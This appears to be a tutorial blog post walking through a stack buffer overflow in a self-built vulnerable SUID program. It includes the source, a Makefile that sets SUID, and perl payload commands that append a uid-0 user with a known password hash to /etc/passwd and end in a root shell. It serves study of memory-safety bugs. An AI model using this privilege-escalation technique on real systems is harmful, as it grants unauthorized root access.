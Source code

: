 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (1) --- Super Basics
comments: true
---
```


Recently I've been revising the concept of buffer overflow and its exploitation, so I will post a sequence of articles on this topic with varying settings. In this article, let's exploit a simple SUID-ed program with a stack-based BOF to add a new root-priviledged user with a chosen password. This example is referenced from the book [Hacking: the Art of Exploitation](http://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441/ref=sr_1_sc_1?ie=UTF8&qid=1446946770&sr=8-1-spell&keywords=hacking+the+art+of+exploitaitn).  

------------------


```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  uname -a
Linux sirius 3.13.0-63-generic #103-Ubuntu SMP Fri Aug 14 21:42:59 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  gcc --version 
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

I'm using x86_64, but I will compile the program in 32bit mode.  

```C
#include    <stdio.h>
#include	<stdlib.h>
#include	<string.h>
#include	<fcntl.h>
#include	<unistd.h>

struct data {
	char buffer[100];
	char datafile[20];
};

int main (int argc, char **argv){
	struct data data;

	strcpy(data.datafile, "/var/notes");

	if (argc < 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}

	strcpy(data.buffer, argv[1]);

	printf("[DEBUG] data.buffer @ %p: \'%s\'\n", data.buffer, data.buffer);
	printf("[DEBUG] data.datafile @ %p: \'%s\'\n", data.datafile, data.datafile);

	int fd;
	fd = open(data.datafile, O_WRONLY| O_APPEND);
	printf("[DEBUG] fd @ %p: %d\n", &fd, fd);

	if (write(fd, data.buffer, strlen(data.buffer)) == -1) {
		fprintf(stderr, "in main() - no write\n");
		exit(1);
	}
	if (close(fd) == -1) {
		fprintf(stderr, "in main() - no close\n");
		exit(1);
	}
		return 0;
}
```

The program shown above simply appends `buffer` to the file `/var/notes`. When strcpy is called to copy `argv[1]` to `buffer`, it can cause a buffer overflow --- when more than 100 characters are stored in `argv[0]`, then the remaining string would be overflowed. The Makefile shown below is used to compile and chown/chmod the program.  

```
CC=gcc
CFLAGS=-m32 -std=c99 -Wall

all: pass_change

pass_change: pass_change.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

pass_change.o: pass_change.c

clean:
	rm pass_change.o pass_change
```


When `argv[1]` is not over 100 characters, it works perfectly.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  sudo touch /var/notes
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change AAAA                      
[DEBUG] data.buffer @ 0xffce9dd4: 'AAAA'
[DEBUG] data.datafile @ 0xffce9e38: '/var/notes'
[DEBUG] fd @ 0xffce9dd0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /var/notes 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  python -c "print 0xffce9e38-0xffce9dd4"
100
```

Since the offset between buffer and datafile is 100 (same as the size of buffer), the overflowed strings of argv[1] will be overwritten to `datafile`.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "A"x120')
[DEBUG] data.buffer @ 0xffed7924: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] data.datafile @ 0xffed7988: 'AAAAAAAAAAAAAAAAAAAA'
[DEBUG] fd @ 0xffed7920: -1
in main() - no write
```

By exploiting this BOF, let's create a new user with a chosen password by appending to `/etc/passwd` file. Following the format of `/etc/passwd` in UNIX system, I will add username `myroot` with password `password` --- `myroot:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash`. As shown below, `password` is encrypted using Crypto() OpenSSL cryptographic library with a salt "AA". Note that the 3rd & 4th entry (i.e. "0:0") indicates root privilege. If you want to know the format of /etc/passwd more in detail, refer to a link [here](http://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e "print crypt('password', 'AA')"         
AA6tQYSfGxd/A
```

The content of datafile needs to be `/etc/passwd`, but the last entry in /etc/passwd needs to specify the user's default shell. So, let's create a symbolic link with the name `/tmp/etc/passwd` pointing to `/bin/bash`. Then, adjust the length of the user ID info (comment section), so that the location of `/etc/passwd` would be at 100.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ln -s /bin/bash /tmp/etc/passwd  
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
86
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp"' | wc -c
100
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"'
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
```

Good. And here it is, you get the root shell.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"') 
[DEBUG] data.buffer @ 0xff8541b4: 'myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] data.datafile @ 0xff854218: '/etc/passwd'
[DEBUG] fd @ 0xff8541b0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /etc/passwd | grep myroot
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  su myroot
Password: 
root@sirius:/home/taishi/blackhat_python/bof_lab# whoami
root
```
